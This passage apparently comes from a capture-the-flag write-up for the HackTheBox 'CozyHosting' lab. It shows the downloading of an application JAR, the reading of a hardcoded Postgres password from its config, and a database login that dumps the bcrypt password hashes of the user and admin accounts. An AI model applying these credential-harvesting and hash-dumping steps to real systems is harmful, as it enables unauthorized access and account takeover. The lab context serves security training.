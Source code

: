 ```
Resolving cozyhosting.htb (cozyhosting.htb)... 10.129.105.187
Connecting to cozyhosting.htb (cozyhosting.htb)|10.129.105.187|:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 60259688 (57M) [application/java-archive]
Saving to: ‘cloudhosting-0.0.1.jar’

cloudhosting-0.0.1.jar       100%[==============================================>]  57.47M  1.49MB/s    in 39s     

2023-09-03 01:17:24 (1.47 MB/s) - ‘cloudhosting-0.0.1.jar’ saved [60259688/60259688]
```
After unzipping, we can find information in the application.properties:
```
$ cat BOOT-INF/classes/application.properties 
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

Here, we have credentials for postgres.
### Cracking password hashes from postgres database
Connecting to postgres:
```
app@cozyhosting:/app$ psql -h localhost -d cozyhosting -U postgres
Password for user postgres: 
psql (14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

cozyhosting=# 
```
Enumerating the postgres database:
```
cozyhosting=# SELECT * FROM users;                     
WARNING: terminal is not fully functional
Press RETURN to continue 
   name    |                           password                           | role
  
-----------+--------------------------------------------------------------+-----
--
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admi
n
(2 rows)
```
